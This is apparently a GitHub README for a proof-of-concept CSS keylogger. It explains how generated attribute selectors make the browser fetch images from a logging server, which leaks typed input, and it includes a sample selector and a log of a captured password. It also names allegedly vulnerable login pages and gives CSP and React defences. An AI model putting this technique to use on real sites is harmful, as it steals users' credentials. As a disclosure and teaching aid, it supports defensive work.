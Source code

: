 # CSS Keylogger

Inspired by: https://news.ycombinator.com/item?id=16422696

This is a proof-of-concept keylogger that uses entirely CSS to log the values of inputs on websites that modify the input's `value` attribute.

React and other frameworks may sync the input value with the DOM input attribute, which allows this trick to work. **Otherwise the website is not vulnerable**

For example, the login pages of Pinterest and Instagram are vulnerable. (Inspect the login fields and see how the actual username and password are visible in the DOM)

### How does it work?

The CSS is dynamically generated by the server and generates CSS selectors for input fields ending in every combination of two characters in a reasonable ASCII range.

When a user types into an input field, the CSS selectors will request images from a server, which are then logged. My version also logs when the fields are focused as well as the users IP, so multiple fields and users can be logged.

Example: `input[value$="AB"] { background-image: url("http://localhost:3000/log/AB") }`

### Limitations

- Does not work for certain repeating combinations.
    - The original inspiration for this used CSS selectors for single characters, so only the first instance of a character was logged. My example uses two characters per selector so it can handle strings such as "lol" which include two of the same character, but not repeating strings such as "lolol" (the last "ol" won't be logged).
    - By using three characters per selector it would be possible to log even more combinations, however this results in a huge (80+ MB) file, where the two character version is just under 1MB.
    - Cache-Control headers will _not_ make the browser send multiple requests for the same background image, however they will prevent caching when the page is reloaded.
- Does not account for mouse clicks, copy/pasting, backspaces, arrow keys, etc.
- May not log in the correct order. (I have not tested this but I suppose it could happen when typing fast on a mobile network)

### Prevention

A CSS file like this could be inserted into your website by a malicious package during your build process, or by a user if you allow user-uploaded custom stylesheets.

- If you are using React, use uncontrolled components or remove the value binding.
- The best method is a CSP (Content Security Policy) to only allow scripts, css, images, AJAX requests, etc. to be loaded from trusted sources such as your own domain.

### How to Use

```
yarn install
yarn start
```

Go to http://localhost:3000/

### Example

[Click to Watch Gif](https://giant.gfycat.com/ColorlessConsciousAmethystinepython.webm)

```
CSS keylogger server listening on port 3000!
[::1] field: username
[::1] te
[::1] tes
[::1] test
[::1] field: password
[::1] hu
[::1] hun
[::1] hunt
[::1] hunter
[::1] hunter2
```
